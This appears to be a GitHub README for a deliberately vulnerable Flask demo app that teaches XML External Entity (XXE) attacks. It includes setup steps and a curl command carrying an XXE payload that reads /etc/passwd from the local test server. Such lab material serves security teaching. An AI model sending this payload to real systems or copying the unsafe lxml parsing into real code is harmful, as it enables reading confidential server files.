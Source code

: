 # XXE Vulnerable Web Application 
This project demonstrates a simple Python web application using Flask that is vulnerable to XML External Entity (XXE) attacks.  
The application accepts XML input and parses it without disabling external entity references, making it vulnerable to XXE attacks.  
## Why It Is Vulnerable 
The vulnerability exists because the application parses user-supplied XML without disabling external entities.  
This allows an attacker to craft an XML payload that includes an external entity reference, which can be used to read arbitrary files on the server or perform other malicious actions.  
## Steps to Launch the App and Test the Vulnerability 
 
1. **Set Up a Virtual Environment:**


```sh
python -m venv venv
source venv/bin/activate  # On Windows, use `venv\Scripts\activate`
```
 
1. **Install Dependencies:**


```sh
pip install Flask lxml
```
 
1. **Run the Application:**


```sh
python app.py
```
 
1. **Access the Application:** 
Open your web browser and navigate to `http://127.0.0.1:5000`.
 
2. **Test the Vulnerability:**
 
- Use a tool like `curl` or an API testing tool to send the following XML payload to the application:


```xml
curl -X POST http://127.0.0.1:5000/parse-xml \
     -H "Content-Type: application/xml" \
     -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>'
```
 
- The response should include the contents of the `/etc/passwd` file, demonstrating the XXE vulnerability.

## Explanation 
In `app.py`, the user input is parsed using the `lxml.etree.fromstring` function without disabling external entities.
This allows an attacker to include an external entity reference in the XML input, which can be used to read arbitrary files from the server.  
This PoC illustrates the dangers of XXE attacks and underscores the importance of proper XML parsing configurations to prevent such vulnerabilities.  
